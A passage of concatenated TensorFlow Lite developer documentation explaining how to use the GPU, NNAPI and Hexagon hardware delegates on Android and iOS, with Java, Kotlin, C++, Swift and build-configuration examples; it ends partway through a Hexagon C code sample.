what each output tensor signifies. If its a simple regression that determines
some sort of score or embedding, the difference should be low (otherwise it's an
error with the delegate). However, outputs like the 'detection class' one from
SSD models is a little harder to interpret. For example, it might show a
difference using this tool, but that may not mean something really wrong with
the delegate: consider two (fake) classes: "TV (ID: 10)", "Monitor (ID:20)" - If
a delegate is slightly off the golden truth and shows monitor instead of TV, the
output diff for this tensor might be something as high as 20-10 = 10.
# TensorFlow Lite on GPU

[TensorFlow Lite](https://www.tensorflow.org/mobile/tflite/) supports several
hardware accelerators. This document describes how to use the GPU backend using
the TensorFlow Lite delegate APIs on Android (requires OpenCL or OpenGL ES 3.1
and higher) and iOS (requires iOS 8 or later).

## Benefits of GPU acceleration

### Speed

GPUs are designed to have high throughput for massively parallelizable
workloads. Thus, they are well-suited for deep neural nets, which consist of a
huge number of operators, each working on some input tensor(s) that can be
easily divided into smaller workloads and carried out in parallel. This
parallelism typically results in lower latency. In the best scenario, inference
on the GPU may run fast enough to become suitable for real-time applications
that were not previously possible.

### Accuracy

GPUs do their computation with 16-bit or 32-bit floating point numbers and
(unlike the CPUs) do not require quantization for optimal performance. If
decreased accuracy made quantization untenable for your models, running your
neural network on a GPU may eliminate this concern.

### Energy efficiency

Another benefit that comes with GPU inference is its power efficiency. A GPU
carries out computations in a very efficient and optimized way, consuming less
power and generating less heat than the same task run on a CPU.

## Supported ops

TensorFlow Lite on GPU supports the following ops in 16-bit and 32-bit float
precision:

*   `ADD`
*   `AVERAGE_POOL_2D`
*   `CONCATENATION`
*   `CONV_2D`
*   `DEPTHWISE_CONV_2D v1-2`
*   `EXP`
*   `FULLY_CONNECTED`
*   `LOGISTIC`
*   `LSTM v2 (Basic LSTM only)`
*   `MAX_POOL_2D`
*   `MAXIMUM`
*   `MINIMUM`
*   `MUL`
*   `PAD`
*   `PRELU`
*   `RELU`
*   `RELU6`
*   `RESHAPE`
*   `RESIZE_BILINEAR v1-3`
*   `SOFTMAX`
*   `STRIDED_SLICE`
*   `SUB`
*   `TRANSPOSE_CONV`

By default, all ops are only supported at version 1. Enabling the
[experimental quantization support](gpu_advanced.md#running-quantized-models-experimental-android-only)
allows the appropriate versions; for example, ADD v2.

## Basic usage

There are two ways to invoke model acceleration in Android depending on if you
are using
[Android Studio ML Model Binding](../inference_with_metadata/codegen#acceleration)
or TensorFlow Lite Interpreter.

### Android via TensorFlow Lite Interpreter

Add the `tensorflow-lite-gpu` package alongside the existing `tensorflow-lite`
package in the existing `dependencies` block.

```
dependencies {
    ...
    implementation 'org.tensorflow:tensorflow-lite:2.3.0'
    implementation 'org.tensorflow:tensorflow-lite-gpu:2.3.0'
}
```

Then run TensorFlow Lite on GPU with `TfLiteDelegate`. In Java, you can specify
the `GpuDelegate` through `Interpreter.Options`.

<div>
  <devsite-selector>
    <section>
      <h3>Kotlin</h3>
      <p><pre class="prettyprint lang-kotlin">
    import org.tensorflow.lite.Interpreter
    import org.tensorflow.lite.gpu.CompatibilityList
    import org.tensorflow.lite.gpu.GpuDelegate

    val compatList = CompatibilityList()

    val options = Interpreter.Options().apply{
        if(compatList.isDelegateSupportedOnThisDevice){
            // if the device has a supported GPU, add the GPU delegate
            val delegateOptions = compatList.bestOptionsForThisDevice
            this.addDelegate(GpuDelegate(delegateOptions))
        } else {
            // if the GPU is not supported, run on 4 threads
            this.setNumThreads(4)
        }
    }

    val interpreter = Interpreter(model, options)

    // Run inference
    writeToInput(input)
    interpreter.run(input, output)
    readFromOutput(output)
      </pre></p>
    </section>
    <section>
      <h3>Java</h3>
      <p><pre class="prettyprint lang-java">
    import org.tensorflow.lite.Interpreter;
    import org.tensorflow.lite.gpu.CompatibilityList;
    import org.tensorflow.lite.gpu.GpuDelegate;

    // Initialize interpreter with GPU delegate
    Interpreter.Options options = new Interpreter.Options();
    CompatibilityList compatList = CompatibilityList();

    if(compatList.isDelegateSupportedOnThisDevice()){
        // if the device has a supported GPU, add the GPU delegate
        GpuDelegate.Options delegateOptions = compatList.getBestOptionsForThisDevice();
        GpuDelegate gpuDelegate = new GpuDelegate(delegateOptions);
        options.addDelegate(gpuDelegate);
    } else {
        // if the GPU is not supported, run on 4 threads
        options.setNumThreads(4);
    }

    Interpreter interpreter = new Interpreter(model, options);

    // Run inference
    writeToInput(input);
    interpreter.run(input, output);
    readFromOutput(output);
      </pre></p>
    </section>
  </devsite-selector>
</div>

### Android (C/C++)

For C/C++ usage of TensorFlow Lite GPU on Android, the GPU delegate can be
created with `TfLiteGpuDelegateV2Create()` and destroyed with
`TfLiteGpuDelegateV2Delete()`.

```c++
// Set up interpreter.
auto model = FlatBufferModel::BuildFromFile(model_path);
if (!model) return false;
ops::builtin::BuiltinOpResolver op_resolver;
std::unique_ptr<Interpreter> interpreter;
InterpreterBuilder(*model, op_resolver)(&interpreter);

// NEW: Prepare GPU delegate.
auto* delegate = TfLiteGpuDelegateV2Create(/*default options=*/nullptr);
if (interpreter->ModifyGraphWithDelegate(delegate) != kTfLiteOk) return false;

// Run inference.
WriteToInputTensor(interpreter->typed_input_tensor<float>(0));
if (interpreter->Invoke() != kTfLiteOk) return false;
ReadFromOutputTensor(interpreter->typed_output_tensor<float>(0));

// NEW: Clean up.
TfLiteGpuDelegateV2Delete(delegate);
```

Take a look at `TfLiteGpuDelegateOptionsV2` to create a delegate instance with
custom options. You can initialize the default options with
`TfLiteGpuDelegateOptionsV2Default()` and then modify them as necessary.

TFLite GPU for Android C/C++ uses the [Bazel](https://bazel.io) build system.
The delegate can be built, for example, using the following command:

```sh
bazel build -c opt --config android_arm64 tensorflow/lite/delegates/gpu:delegate                           # for static library
bazel build -c opt --config android_arm64 tensorflow/lite/delegates/gpu:libtensorflowlite_gpu_delegate.so  # for dynamic library
```

Note: When calling `Interpreter::ModifyGraphWithDelegate()` or
`Interpreter::Invoke()`, the caller must have an `EGLContext` in the current
thread and `Interpreter::Invoke()` must be called from the same `EGLContext`. If
an `EGLContext` does not exist, the delegate will internally create one, but
then the developer must ensure that `Interpreter::Invoke()` is always called
from the same thread in which `Interpreter::ModifyGraphWithDelegate()` was
called.

### iOS (C++)

Note: For Swift/Objective-C/C use cases, please refer to
[GPU delegate guide](gpu#ios)

Note: This is only available when you are using bazel or build TensorFlow Lite
by yourself. C++ API can't be used with CocoaPods.

To use TensorFlow Lite on GPU, get the GPU delegate via `TFLGpuDelegateCreate()`
and then pass it to `Interpreter::ModifyGraphWithDelegate()` (instead of calling
`Interpreter::AllocateTensors()`).

```c++
// Set up interpreter.
auto model = FlatBufferModel::BuildFromFile(model_path);
if (!model) return false;
tflite::ops::builtin::BuiltinOpResolver op_resolver;
std::unique_ptr<Interpreter> interpreter;
InterpreterBuilder(*model, op_resolver)(&interpreter);

// NEW: Prepare GPU delegate.

auto* delegate = TFLGpuDelegateCreate(/*default options=*/nullptr);
if (interpreter->ModifyGraphWithDelegate(delegate) != kTfLiteOk) return false;

// Run inference.
WriteToInputTensor(interpreter->typed_input_tensor<float>(0));
if (interpreter->Invoke() != kTfLiteOk) return false;
ReadFromOutputTensor(interpreter->typed_output_tensor<float>(0));

// Clean up.
TFLGpuDelegateDelete(delegate);
```

## Advanced usage

### Delegate Options for iOS

Constructor for GPU delegate accepts a `struct` of options.
([Swift API](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/swift/Sources/MetalDelegate.swift),
[Objective-C API](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/objc/apis/TFLMetalDelegate.h),
[C API](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/delegates/gpu/metal_delegate.h))

Passing `nullptr` (C API) or nothing (Objective-C and Swift API) to the
initializer sets the default options (which are explicated in the Basic Usage
example above).

<div>
  <devsite-selector>
    <section>
      <h3>Swift</h3>
      <p><pre class="prettyprint lang-swift">
    // THIS:
    var options = MetalDelegate.Options()
    options.isPrecisionLossAllowed = false
    options.waitType = .passive
    options.isQuantizationEnabled = true
    let delegate = MetalDelegate(options: options)

    // IS THE SAME AS THIS:
    let delegate = MetalDelegate()
      </pre></p>
    </section>
    <section>
      <h3>Objective-C</h3>
      <p><pre class="prettyprint lang-objc">
    // THIS:
    TFLMetalDelegateOptions* options = [[TFLMetalDelegateOptions alloc] init];
    options.precisionLossAllowed = false;
    options.waitType = TFLMetalDelegateThreadWaitTypePassive;
    options.quantizationEnabled = true;

    TFLMetalDelegate* delegate = [[TFLMetalDelegate alloc] initWithOptions:options];

    // IS THE SAME AS THIS:
    TFLMetalDelegate* delegate = [[TFLMetalDelegate alloc] init];
      </pre></p>
    </section>
    <section>
      <h3>C</h3>
      <p><pre class="prettyprint lang-c">
    // THIS:
    const TFLGpuDelegateOptions options = {
      .allow_precision_loss = false,
      .wait_type = TFLGpuDelegateWaitType::TFLGpuDelegateWaitTypePassive,
      .enable_quantization = true,
    };

    TfLiteDelegate* delegate = TFLGpuDelegateCreate(options);

    // IS THE SAME AS THIS:
    TfLiteDelegate* delegate = TFLGpuDelegateCreate(nullptr);
      </pre></p>
    </section>
  </devsite-selector>
</div>

While it is convenient to use `nullptr` or default constructors, we recommend
that you explicitly set the options, to avoid any unexpected behavior if default
values are changed in the future.

### Running quantized models on GPU

This section explains how the GPU delegate accelerates 8-bit quantized models.
This includes all flavors of quantization, including:

*   Models trained with
    [Quantization-aware training](https://www.tensorflow.org/lite/convert/quantization)
*   [Post-training dynamic-range quantization](https://www.tensorflow.org/lite/performance/post_training_quant)
*   [Post-training full-integer quantization](https://www.tensorflow.org/lite/performance/post_training_integer_quant)

To optimize performance, use models that have floating-point input & output
tensors.

#### How does this work?

Since the GPU backend only supports floating-point execution, we run quantized
models by giving it a ‘floating-point view’ of the original model. At a
high-level, this entails the following steps:

*   *Constant tensors* (such as weights/biases) are dequantized once into the
    GPU memory. This happens when the delegate is applied to the TFLite
    Interpreter.

*   *Inputs and outputs* to the GPU program, if 8-bit quantized, are dequantized
    and quantized (respectively) for each inference. This is done on the CPU
    using TFLite’s optimized kernels.

*   The GPU program is modified to mimic quantized behavior by inserting
    *quantization simulators* between operations. This is necessary for models
    where ops expect activations to follow bounds learnt during quantization.

This feature can be enabled using delegate options as follows:

#### Android

Android APIs support quantized models by default. To disable, do the following:

**C++ API**

```c++
TfLiteGpuDelegateOptionsV2 options = TfLiteGpuDelegateOptionsV2Default();
options.experimental_flags = TFLITE_GPU_EXPERIMENTAL_FLAGS_NONE;

auto* delegate = TfLiteGpuDelegateV2Create(options);
if (interpreter->ModifyGraphWithDelegate(delegate) != kTfLiteOk) return false;
```

**Java API**

```java
GpuDelegate delegate = new GpuDelegate(new GpuDelegate.Options().setQuantizedModelsAllowed(false));

Interpreter.Options options = (new Interpreter.Options()).addDelegate(delegate);
```

#### iOS

iOS APIs support quantized models by default. To disable, do the following:

<div>
  <devsite-selector>
    <section>
      <h3>Swift</h3>
      <p><pre class="prettyprint lang-swift">
    var options = MetalDelegate.Options()
    options.isQuantizationEnabled = false
    let delegate = MetalDelegate(options: options)
      </pre></p>
    </section>
    <section>
      <h3>Objective-C</h3>
      <p><pre class="prettyprint lang-objc">
    TFLMetalDelegateOptions* options = [[TFLMetalDelegateOptions alloc] init];
    options.quantizationEnabled = false;
      </pre></p>
    </section>
    <section>
      <h3>C</h3>
      <p><pre class="prettyprint lang-c">
    TFLGpuDelegateOptions options = TFLGpuDelegateOptionsDefault();
    options.enable_quantization = false;

    TfLiteDelegate* delegate = TFLGpuDelegateCreate(options);
      </pre></p>
    </section>
  </devsite-selector>
</div>

### Input/Output Buffers (iOS, C++ API only)

Note: This is only available when you are using bazel or build TensorFlow Lite
by yourself. C++ API can't be used with CocoaPods.

To do computation on the GPU, data must be made available to the GPU. This often
requires performing a memory copy. It is desirable not to cross the CPU/GPU
memory boundary if possible, as this can take up a significant amount of time.
Usually, such crossing is inevitable, but in some special cases, one or the
other can be omitted.

If the network's input is an image already loaded in the GPU memory (for
example, a GPU texture containing the camera feed) it can stay in the GPU memory
without ever entering the CPU memory. Similarly, if the network's output is in
the form of a renderable image (for example,
[image style transfer](https://www.cv-foundation.org/openaccess/content_cvpr_2016/papers/Gatys_Image_Style_Transfer_CVPR_2016_paper.pdf))
it can be directly displayed on the screen.

To achieve best performance, TensorFlow Lite makes it possible for users to
directly read from and write to the TensorFlow hardware buffer and bypass
avoidable memory copies.

Assuming the image input is in GPU memory, it must first be converted to a
`MTLBuffer` object for Metal. You can associate a TfLiteTensor to a
user-prepared `MTLBuffer` with `TFLGpuDelegateBindMetalBufferToTensor()`. Note
that `TFLGpuDelegateBindMetalBufferToTensor()` must be called after
`Interpreter::ModifyGraphWithDelegate()`. Additionally, the inference output is,
by default, copied from GPU memory to CPU memory. This behavior can be turned
off by calling `Interpreter::SetAllowBufferHandleOutput(true)` during
initialization.

```c++
#include "tensorflow/lite/delegates/gpu/metal_delegate.h"
#include "tensorflow/lite/delegates/gpu/metal_delegate_internal.h"

// ...

// Prepare GPU delegate.
auto* delegate = TFLGpuDelegateCreate(nullptr);

if (interpreter->ModifyGraphWithDelegate(delegate) != kTfLiteOk) return false;

interpreter->SetAllowBufferHandleOutput(true);  // disable default gpu->cpu copy
if (!TFLGpuDelegateBindMetalBufferToTensor(
        delegate, interpreter->inputs()[0], user_provided_input_buffer)) {
  return false;
}
if (!TFLGpuDelegateBindMetalBufferToTensor(
        delegate, interpreter->outputs()[0], user_provided_output_buffer)) {
  return false;
}

// Run inference.
if (interpreter->Invoke() != kTfLiteOk) return false;
```

Note: Once the default behavior is turned off, copying the inference output from
GPU memory to CPU memory requires an explicit call to
`Interpreter::EnsureTensorDataIsReadable()` for each output tensor.

Note: This also works for quantized models, but you still need to a **float32
sized buffer with float32 data**, because the buffer will be bound to the
internal dequantized buffer.

### GPU Delegate Serialization

Using serialization of GPU kernel code and model data from previous
initializations can reduce latency of GPU delegate's initialization up to 90%.
This improvement is achieved by exchanging disk space for time savings. You
can enable this feature with a few configurations options, as shown in the
following code examples:

<div>
  <devsite-selector>
    <section>
      <h3>C++</h3>
      <p><pre class="prettyprint lang-cpp">
    TfLiteGpuDelegateOptionsV2 options = TfLiteGpuDelegateOptionsV2Default();
    options.experimental_flags |= TFLITE_GPU_EXPERIMENTAL_FLAGS_ENABLE_SERIALIZATION;
    options.serialization_dir = kTmpDir;
    options.model_token = kModelToken;

    auto* delegate = TfLiteGpuDelegateV2Create(options);
    if (interpreter->ModifyGraphWithDelegate(delegate) != kTfLiteOk) return false;
      </pre></p>
    </section>
    <section>
      <h3>Java</h3>
      <p><pre class="prettyprint lang-java">
    GpuDelegate delegate = new GpuDelegate(
      new GpuDelegate.Options().setSerializationParams(
        /* serializationDir= */ serializationDir,
        /* modelToken= */ modelToken));

    Interpreter.Options options = (new Interpreter.Options()).addDelegate(delegate);
      </pre></p>
    </section>
  </devsite-selector>
</div>

When using the serialization feature, make sure your code complies with these
implementation rules:

*   Store the serialization data in a directory that is not accessible to other
    apps. On Android devices, use
    [`getCodeCacheDir()`](https://developer.android.com/reference/android/content/Context#getCacheDir\(\))
    which points to a location that is private to the current application.
*   The model token must be unique to the device for the specific model. You can
    compute a model token by generating a fingerprint from the model data (e.g.
    using [`farmhash::Fingerprint64`](https://github.com/google/farmhash)).

Note: This feature requires the
[OpenCL SDK](https://github.com/KhronosGroup/OpenCL-SDK) for serialization
support.

## Tips and Tricks

*   Some operations that are trivial on the CPU may be high cost on a GPU. One
    class of such operation includes various forms of reshape operations
    (including `BATCH_TO_SPACE`, `SPACE_TO_BATCH`, `SPACE_TO_DEPTH`, and similar
    operation). If these operations are not required (for example, they were
    inserted to help the network architect reason about the system but do not
    otherwise affect output), it is worth removing them for performance.

*   On a GPU, tensor data is sliced into 4-channels. Thus, a computation on a
    tensor of shape `[B, H, W, 5]` will perform about the same on a tensor of
    shape `[B, H, W, 8]`, but significantly worse than `[B, H, W, 4]`.

    *   For example, if the camera hardware supports image frames in RGBA,
        feeding that 4-channel input is significantly faster, because a memory
        copy (from 3-channel RGB to 4-channel RGBX) can be avoided.

*   For best performance, do not hesitate to re-train your classifier with
    mobile-optimized network architecture. That is a significant part of
    optimization for on-device inference.
# TensorFlow Lite NNAPI delegate

The
[Android Neural Networks API (NNAPI)](https://developer.android.com/ndk/guides/neuralnetworks)
is available on all Android devices running Android 8.1 (API level 27) or
higher. It provides acceleration for TensorFlow Lite models on Android devices
with supported hardware accelerators including:

*   Graphics Processing Unit (GPU)
*   Digital Signal Processor (DSP)
*   Neural Processing Unit (NPU)

Performance will vary depending on the specific hardware available on device.

This page describes how to use the NNAPI delegate with the TensorFlow Lite
Interpreter in Java and Kotlin. For Android C APIs, please refer to
[Android Native Developer Kit documentation](https://developer.android.com/ndk/guides/neuralnetworks).

## Trying the NNAPI delegate on your own model

### Gradle import

The NNAPI delegate is part of the TensorFlow Lite Android interpreter, release
1.14.0 or higher. You can import it to your project by adding the following to
your module gradle file:

```groovy
dependencies {
   implementation 'org.tensorflow:tensorflow-lite:2.0.0'
}
```

### Initializing the NNAPI delegate

Add the code to initialize the NNAPI delegate before you initialize the
TensorFlow Lite interpreter.

Note: Although NNAPI is supported from API Level 27 (Android Oreo MR1), the
support for operations improved significantly for API Level 28 (Android Pie)
onwards. As a result, we recommend developers use the NNAPI delegate for Android
Pie or above for most scenarios.

```java
import org.tensorflow.lite.Interpreter;
import org.tensorflow.lite.nnapi.NnApiDelegate;

Interpreter.Options options = (new Interpreter.Options());
NnApiDelegate nnApiDelegate = null;
// Initialize interpreter with NNAPI delegate for Android Pie or above
if(Build.VERSION.SDK_INT >= Build.VERSION_CODES.P) {
    nnApiDelegate = new NnApiDelegate();
    options.addDelegate(nnApiDelegate);
}

// Initialize TFLite interpreter
try {
    tfLite = new Interpreter(loadModelFile(assetManager, modelFilename), options);
} catch (Exception e) {
    throw new RuntimeException(e);
}

// Run inference
// ...

// Unload delegate
tfLite.close();
if(null != nnApiDelegate) {
    nnApiDelegate.close();
}
```

## Best practices

### Test performance before deploying

Runtime performance can vary significantly due to model architecture, size,
operations, hardware availability, and runtime hardware utilization. For
example, if an app heavily utilizes the GPU for rendering, NNAPI acceleration
may not improve performance due to resource contention. We recommend running a
simple performance test using the debug logger to measure inference time. Run
the test on several phones with different chipsets (manufacturer or models from
the same manufacturer) that are representative of your user base before enabling
NNAPI in production.

For advanced developers, TensorFlow Lite also offers
[a model benchmark tool for Android](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark).

### Create a device exclusion list

In production, there may be cases where NNAPI does not perform as expected. We
recommend developers maintain a list of devices that should not use NNAPI
acceleration in combination with particular models. You can create this list
based on the value of `"ro.board.platform"`, which you can retrieve using the
following code snippet:

```java
String boardPlatform = "";

try {
    Process sysProcess =
        new ProcessBuilder("/system/bin/getprop", "ro.board.platform").
        redirectErrorStream(true).start();

    BufferedReader reader = new BufferedReader
        (new InputStreamReader(sysProcess.getInputStream()));
    String currentLine = null;

    while ((currentLine=reader.readLine()) != null){
        boardPlatform = line;
    }
    sysProcess.destroy();
} catch (IOException e) {}

Log.d("Board Platform", boardPlatform);
```

For advanced developers, consider maintaining this list via a remote
configuration system. The TensorFlow team is actively working on ways to
simplify and automate discovering and applying the optimal NNAPI configuration.

### Quantization

Quantization reduces model size by using 8-bit integers or 16-bit floats instead
of 32-bit floats for computation. 8-bit integer model sizes are a quarter of the
32-bit float versions; 16-bit floats are half of the size. Quantization can
improve performance significantly though the process could trade off some model
accuracy.

There are multiple types of post-training quantization techniques available,
but, for maximum support and acceleration on current hardware, we recommend
[full integer quantization](post_training_quantization#full_integer_quantization_of_weights_and_activations).
This approach converts both the weight and the operations into integers. This
quantization process requires a representative dataset to work.

### Use supported models and ops

If the NNAPI delegate does not support some of the ops or parameter combinations
in a model, the framework only runs the supported parts of the graph on the
accelerator. The remainder runs on the CPU, which results in split execution.
Due to the high cost of CPU/accelerator synchronization, this may result in
slower performance than executing the whole network on the CPU alone.

NNAPI performs best when models only use
[supported ops](https://developer.android.com/ndk/guides/neuralnetworks#model).
The following models are known to be compatible with NNAPI:

*   [MobileNet v1 (224x224) image classification (float model download)](https://ai.googleblog.com/2017/06/mobilenets-open-source-models-for.html)
    [(quantized model download)](http://download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_1.0_224_quant.tgz)
    \
    _(image classification model designed for mobile and embedded based vision
    applications)_
*   [MobileNet v2 SSD object detection](https://ai.googleblog.com/2018/07/accelerated-training-and-inference-with.html)
    [(download)](https://storage.googleapis.com/download.tensorflow.org/models/tflite/gpu/mobile_ssd_v2_float_coco.tflite)
    \
    _(image classification model that detects multiple objects with bounding
    boxes)_
*   [MobileNet v1(300x300) Single Shot Detector (SSD) object detection](https://ai.googleblog.com/2018/07/accelerated-training-and-inference-with.html)
[(download)] (https://storage.googleapis.com/download.tensorflow.org/models/tflite/coco_ssd_mobilenet_v1_1.0_quant_2018_06_29.zip)
*   [PoseNet for pose estimation](https://github.com/tensorflow/tfjs-models/tree/master/posenet)
    [(download)](https://storage.googleapis.com/download.tensorflow.org/models/tflite/gpu/multi_person_mobilenet_v1_075_float.tflite)
    \
    _(vision model that estimates the poses of a person(s) in image or video)_

NNAPI acceleration is also not supported when the model contains
dynamically-sized outputs. In this case, you will get a warning like:

```none
ERROR: Attempting to use a delegate that only supports static-sized tensors \
with a graph that has dynamic-sized tensors.
```

### Enable NNAPI CPU implementation

A graph that can't be processed completely by an accelerator can fall back to
the NNAPI CPU implementation. However, since this is typically less performant
than the TensorFlow interpreter, this option is disabled by default in the NNAPI
delegate for Android 10 (API Level 29) or above. To override this behavior, set
`setUseNnapiCpu` to `true` in the `NnApiDelegate.Options` object.
# TensorFlow Lite Hexagon delegate

This document explains how to use the TensorFlow Lite Hexagon Delegate in your
application using the Java and/or C API. The delegate leverages the Qualcomm
Hexagon library to execute quantized kernels on the DSP. Note that the delegate
is intended to *complement* NNAPI functionality, particularly for devices where
NNAPI DSP acceleration is unavailable (e.g., on older devices, or devices that
don’t yet have a DSP NNAPI driver).

Note: This delegate is in experimental (beta) phase.

**Supported devices:**

Currently the following Hexagon architecture are supported, including but not
limited to:

*   Hexagon 680
    *   SoC examples: Snapdragon 821, 820, 660
*   Hexagon 682
    *   SoC examples: Snapdragon 835
*   Hexagon 685
    *   SoC examples: Snapdragon 845, Snapdragon 710, QCS605, QCS603
*   Hexagon 690
    *   SoC examples: Snapdragon 855, QCS610, QCS410, RB5

**Supported models:**

The Hexagon delegate supports all models that conform to our
[8-bit symmetric quantization spec](https://www.tensorflow.org/lite/performance/quantization_spec),
including those generated using
[post-training integer quantization](https://www.tensorflow.org/lite/performance/post_training_integer_quant).
UInt8 models trained with the legacy
[quantization-aware training](https://github.com/tensorflow/tensorflow/tree/r1.13/tensorflow/contrib/quantize)
path are also supported, for e.g.,
[these quantized versions](https://www.tensorflow.org/lite/guide/hosted_models#quantized_models)
on our Hosted Models page.

## Hexagon delegate Java API

```java
public class HexagonDelegate implements Delegate, Closeable {

  /*
   * Creates a new HexagonDelegate object given the current 'context'.
   * Throws UnsupportedOperationException if Hexagon DSP delegation is not
   * available on this device.
   */
  public HexagonDelegate(Context context) throws UnsupportedOperationException


  /**
   * Frees TFLite resources in C runtime.
   *
   * User is expected to call this method explicitly.
   */
  @Override
  public void close();
}
```

### Example usage

#### Step 1. Edit app/build.gradle to use the nightly Hexagon delegate AAR

```
dependencies {
  ...
  implementation 'org.tensorflow:tensorflow-lite:0.0.0-nightly-SNAPSHOT'
  implementation 'org.tensorflow:tensorflow-lite-hexagon:0.0.0-nightly-SNAPSHOT'
}
```

#### Step 2. Add Hexagon libraries to your Android app

*   Download and run hexagon_nn_skel.run. It should provide 3 different shared
    libraries “libhexagon_nn_skel.so”, “libhexagon_nn_skel_v65.so”,
    “libhexagon_nn_skel_v66.so”
    *   [v1.10.3](https://storage.cloud.google.com/download.tensorflow.org/tflite/hexagon_nn_skel_1_10_3_1.run)
    *   [v1.14](https://storage.cloud.google.com/download.tensorflow.org/tflite/hexagon_nn_skel_v1.14.run)
    *   [v1.17](https://storage.cloud.google.com/download.tensorflow.org/tflite/hexagon_nn_skel_v1.17.0.0.run)
    *   [v1.20](https://storage.cloud.google.com/download.tensorflow.org/tflite/hexagon_nn_skel_v1.20.0.0.run)
    *   [v1.20.0.1](https://storage.cloud.google.com/download.tensorflow.org/tflite/hexagon_nn_skel_v1.20.0.1.run)

Note: You will need to accept the license agreement.

Note: As of 02/23/2021 you should use v1.20.0.1.

Note: You must use the hexagon_nn libraries with the compatible version of
interface library. Interface library is part of the AAR and fetched by bazel
through the
[config](https://github.com/tensorflow/tensorflow/blob/master/third_party/hexagon/workspace.bzl)
The version in the bazel config is the version you should use.

*   Include all 3 in your app with other shared libraries. See
    [How to add shared library to your app](#how-to-add-shared-library-to-your-app).
    The delegate will automatically pick the one with best performance depending
    on the device.

Note: If your app will be built for both 32 and 64-bit ARM devices, then you
will need to add the Hexagon shared libs to both 32 and 64-bit lib folders.

#### Step 3. Create a delegate and initialize a TensorFlow Lite Interpreter

```java
import org.tensorflow.lite.HexagonDelegate;

// Create the Delegate instance.
try {
  hexagonDelegate = new HexagonDelegate(activity);
  tfliteOptions.addDelegate(hexagonDelegate);
} catch (UnsupportedOperationException e) {
  // Hexagon delegate is not supported on this device.
}

tfliteInterpreter = new Interpreter(tfliteModel, tfliteOptions);

// Dispose after finished with inference.
tfliteInterpreter.close();
if (hexagonDelegate != null) {
  hexagonDelegate.close();
}
```

## Hexagon delegate C API

```c
struct TfLiteHexagonDelegateOptions {
  // This corresponds to the debug level in the Hexagon SDK. 0 (default)
  // means no debug.
  int debug_level;
  // This corresponds to powersave_level in the Hexagon SDK.
  // where 0 (default) means high performance which means more power
  // consumption.
  int powersave_level;
  // If set to true, performance information about the graph will be dumped
  // to Standard output, this includes cpu cycles.
  // WARNING: Experimental and subject to change anytime.
  bool print_graph_profile;
  // If set to true, graph structure will be dumped to Standard output.
  // This is usually beneficial to see what actual nodes executed on
  // the DSP. Combining with 'debug_level' more information will be printed.
  // WARNING: Experimental and subject to change anytime.
  bool print_graph_debug;
};

// Return a delegate that uses Hexagon SDK for ops execution.
// Must outlive the interpreter.
TfLiteDelegate*
TfLiteHexagonDelegateCreate(const TfLiteHexagonDelegateOptions* options);

// Do any needed cleanup and delete 'delegate'.
void TfLiteHexagonDelegateDelete(TfLiteDelegate* delegate);

// Initializes the DSP connection.
// This should be called before doing any usage of the delegate.
// "lib_directory_path": Path to the directory which holds the
// shared libraries for the Hexagon NN libraries on the device.
void TfLiteHexagonInitWithPath(const char* lib_directory_path);

// Same as above method but doesn't accept the path params.
// Assumes the environment setup is already done. Only initialize Hexagon.
Void TfLiteHexagonInit();

// Clean up and switch off the DSP connection.
// This should be called after all processing is done and delegate is deleted.
Void TfLiteHexagonTearDown();
```

### Example usage

#### Step 1. Edit app/build.gradle to use the nightly Hexagon delegate AAR

```
dependencies {
  ...
  implementation 'org.tensorflow:tensorflow-lite:0.0.0-nightly-SNAPSHOT'
  implementation 'org.tensorflow:tensorflow-lite-hexagon:0.0.0-nightly-SNAPSHOT'
}
```

#### Step 2. Add Hexagon libraries to your Android app

*   Download and run hexagon_nn_skel.run. It should provide 3 different shared
    libraries “libhexagon_nn_skel.so”, “libhexagon_nn_skel_v65.so”,
    “libhexagon_nn_skel_v66.so”
    *   [v1.10.3](https://storage.cloud.google.com/download.tensorflow.org/tflite/hexagon_nn_skel_1_10_3_1.run)
    *   [v1.14](https://storage.cloud.google.com/download.tensorflow.org/tflite/hexagon_nn_skel_v1.14.run)
    *   [v1.17](https://storage.cloud.google.com/download.tensorflow.org/tflite/hexagon_nn_skel_v1.17.0.0.run)
    *   [v1.20](https://storage.cloud.google.com/download.tensorflow.org/tflite/hexagon_nn_skel_v1.20.0.0.run)
    *   [v1.20.0.1](https://storage.cloud.google.com/download.tensorflow.org/tflite/hexagon_nn_skel_v1.20.0.1.run)

Note: You will need to accept the license agreement.

Note: As of 02/23/2021 you should use v1.20.0.1.

Note: You must use the hexagon_nn libraries with the compatible version of
interface library. Interface library is part of the AAR and fetched by bazel
through the
[config](https://github.com/tensorflow/tensorflow/blob/master/third_party/hexagon/workspace.bzl).
The version in the bazel config is the version you should use.

*   Include all 3 in your app with other shared libraries. See
    [How to add shared library to your app](#how-to-add-shared-library-to-your-app).
    The delegate will automatically pick the one with best performance depending
    on the device.

Note: If your app will be built for both 32 and 64-bit ARM devices, then you
will need to add the Hexagon shared libs to both 32 and 64-bit lib folders.

#### Step 3. Include the C header

*   The header file "hexagon_delegate.h" can be downloaded from
    [GitHub](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/delegates/hexagon/hexagon_delegate.h)
    or extracted from the Hexagon delegate AAR.

#### Step 4. Create a delegate and initialize a TensorFlow Lite Interpreter

*   In your code, ensure the native Hexagon library is loaded. This can be done
    by calling `System.loadLibrary("tensorflowlite_hexagon_jni");` \
    in your Activity or Java entry-point.

*   Create a delegate, example:

```c
#include "tensorflow/lite/delegates/hexagon/hexagon_delegate.h"

// Assuming shared libraries are under "/data/local/tmp/"
// If files are packaged with native lib in android App then it
// will typically be equivalent to the path provided by
// "getContext().getApplicationInfo().nativeLibraryDir"
const char[] library_directory_path = "/data/local/tmp/";
TfLiteHexagonInitWithPath(library_directory_path);  // Needed once at startup.
::tflite::TfLiteHexagonDelegateOptions params = {0};
// 'delegate_ptr' Need to outlive the interpreter. For example,
// If use case will need to resize input or anything that can trigger
// re-applying delegates then 'delegate_ptr' need to outlive the interpreter.
auto* delegate_ptr = ::tflite::TfLiteHexagonDelegateCreate(&params);
Interpreter::TfLiteDelegatePtr delegate(delegate_ptr,
  [](TfLiteDelegate* delegate) {
    ::tflite::TfLiteHexagonDelegateDelete(delegate);
  });
